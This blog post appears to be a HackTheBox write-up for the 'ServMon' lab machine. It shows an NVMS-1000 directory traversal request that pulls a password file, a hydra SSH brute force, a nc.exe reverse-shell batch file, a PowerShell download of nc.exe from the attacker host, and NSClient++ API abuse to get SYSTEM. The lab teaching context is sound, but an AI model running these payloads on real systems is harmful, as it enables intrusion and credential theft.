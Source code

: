 ```yaml
---
layout: post
title: "HackTheBox - ServMon"
author: "joona"
---
```


![](/images/servmon/sermon.jpg)
ServMon is an easy Windows box where the initial access is achieved with help of a directory traversal
vulnerability and the privilege escalation to NT AUTHORITY\SYSTEM requires exploiting a service monitoring
agent called NSClient++. The privilege escalation proof of concept gave me some pain, but I
managed to figure it out in the end. Fun box!

<br/>
### Nmap results
{% highlight plaintext %}
# Nmap 7.80 scan initiated Sun Apr 12 13:28:28 2020 as: nmap -p- -A -T4 -oA nmap/servmon 10.10.10.184
Nmap scan report for 10.10.10.184
Host is up (0.049s latency).
Not shown: 65517 closed ports
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_01-18-20  12:05PM       <DIR>          Users
| ftp-syst:
|_  SYST: Windows_NT
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey:
|   2048 b9:89:04:ae:b6:26:07:3f:61:89:75:cf:10:29:28:83 (RSA)
|   256 71:4e:6c:c0:d3:6e:57:4f:06:b8:95:3d:c7:75:57:53 (ECDSA)
|_  256 15:38:bd:75:06:71:67:7a:01:17:9c:5c:ed:4c:de:0e (ED25519)
80/tcp    open  http
| fingerprint-strings:
|   GetRequest, HTTPOptions, RTSPRequest:
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo:
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL:
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
5666/tcp  open  tcpwrapped
6063/tcp  open  x11?
6699/tcp  open  napster?
7680/tcp  open  pando-pub?
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
{% endhighlight %}

<br/>
### FTP enumeration
Like the nmap scan says, the FTP server allows anonymous login.<br/>
There we have two files: `Confidential.txt` and `Notes to do.txt`.<br/>

Confidential.txt:
{% highlight plaintext %}
Nathan,
I left your Passwords.txt file on your Desktop.  
Please remove this once you have edited it yourself and place it back into the secure folder.
Regards
Nadine
{% endhighlight %}

Notes to do.txt:
{% highlight plaintext %}
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
{% endhighlight %}

So we have two usernames, Nathan and Nadine. We also now know that Nathan has a Passwords.txt file on his Desktop folder.
The path for this is most likely C:\Users\Nathan\Desktop\Passwords.txt.

<br/>
### Website enumeration
On port 80 we are redirected to `http://10.10.10.184/Pages/login.htm` where we have a `NVMS-1000` login page.
Using `searchsploit nvms` we see that NVMS-1000 is vulnerable to a [directory traversal](https://packetstormsecurity.com/files/155663/NVMS-1000-Directory-Traversal.html).

The proof of concept for this shows directory traversal is possible with the following payload:
{% highlight plaintext %}
GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
{% endhighlight %}

Let's intercept the HTTP request with Burp Suite by refreshing the NVMS-1000 login page and change
the GET request to:
{% highlight plaintext %}
GET /Pages/login.htm/../../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt HTTP/1.1
{% endhighlight %}
![](/images/servmon/directory_traversal.jpg)

With this we get a list of passwords. I saved these to a file called pass.txt and started brute forcing.<br/>
Brute forcing the FTP server did not give any results, but the SSH matched a password to user Nadine:
{% highlight plaintext %}
hydra -L users.txt -P pass.txt ssh://10.10.10.184
{% endhighlight %}
![](/images/servmon/ssh_hydra.jpg)

<br/>
### Privilege Escalation
Logging in as Nadine via SSH and enumerating the host I found a program called `NSClient++`.<br/>
Inside the NSClient++ install folder we have file `nsclient.ini` which has a password and states
that only allowed hosts are the localhost.

![](/images/servmon/nsclientini.jpg)

Looking at the open ports with `netstat -ano` I saw port `8443` was listening on the localhost.<br/>
This port was not detected by the nmap scan.<br/>

I decided to create a reverse SSH tunnel to see what is the deal with this port:<br/>
{% highlight plaintext %}
ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184
{% endhighlight %}
`-L` = create a local SSH tunnel<br/>
`8443` = the port we want to use on our machine (can be any port)<br/>
`127.0.0.1:8443` = connect to port 8443 on the local machine (target machine)<br/>
`nadine@10.10.10.184` = establish the tunnel as user Nadine<br/>

Now we can open the site on our machine: `https://127.0.0.1:8443`<br/>
![](/images/servmon/nsclient.jpg)

I used the password found in `nsclient.ini` file to log in. After this my goal was to
find the version of the install NSClient++. The web interface did not leak this, so
I took a look inside the install folder where there was `changelog.txt` with last update in
early 2018. This meant we probably are dealing with an old ass version, which more than likely
is vulnerable to something.<br/>

Researching this I found a [privilege escalation from 2019](https://www.exploit-db.com/exploits/46802).
The PoC has you doing all kind of funky stuff on the web interface scheduling external scripts and what not.<br/>
I had no success replicating this via the GUI, so I decided to take a different route.<br/>

Digging through the [NSClient++ documentation](https://docs.nsclient.org/api/rest/scripts/), we see that we can do this with the API.
We can list the available scripts:
{% highlight plaintext %}
curl -s -k -u admin https://localhost:8443/api/v1/scripts/ext?all=true | python -m json.tool
{% endhighlight %}

I created a simple .bat-file reverse shell script that I would upload and run.<br/>
ebin.bat:
{% highlight plaintext %}
@echo off
C:\Temp\nc.exe 10.10.14.16 8808 -e cmd.exe
{% endhighlight %}

<br/>
For this we need to upload a `nc.exe` binary to the target host.<br/>
Kali most likely has nc.exe on there by default (`locate -i nc.exe`), but you can also download it for example from [packetstormsecurity](https://packetstormsecurity.com/files/31140/nc.exe.html).<br/>

Navigate to C:\Temp folder on the target host and download the file:
{% highlight plaintext %}
powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.31:8000/nc.exe', 'nc.exe')"
{% endhighlight %}

<br/>
Back on our machine, upload the script to NSClient++ and setup a listener to catch that reverse shell:
{% highlight plaintext %}
curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/ebin.bat --data-binary @ebin.bat
nc -lvnp 8808
{% endhighlight %}

Now we can go to the web GUI console (`https://127.0.0.1:8443/index.html#/console`) and run the script by
just typing `ebin` and pressing Run.

We get a reverse shell as NT AUTHORITY\SYSTEM on our port 8808 listener. <br/>
Rooted :)

Don't forget to remove the script.
{% highlight plaintext %}
# Delete the definition of the script:
curl -s -k -u admin -X DELETE https://localhost:8443/api/v1/scripts/ext/ebin
# Remove the script
curl -s -k -u admin -X DELETE https://localhost:8443/api/v1/scripts/ext/scripts/ebin.bat
{% endhighlight %}

Thank you for reading!
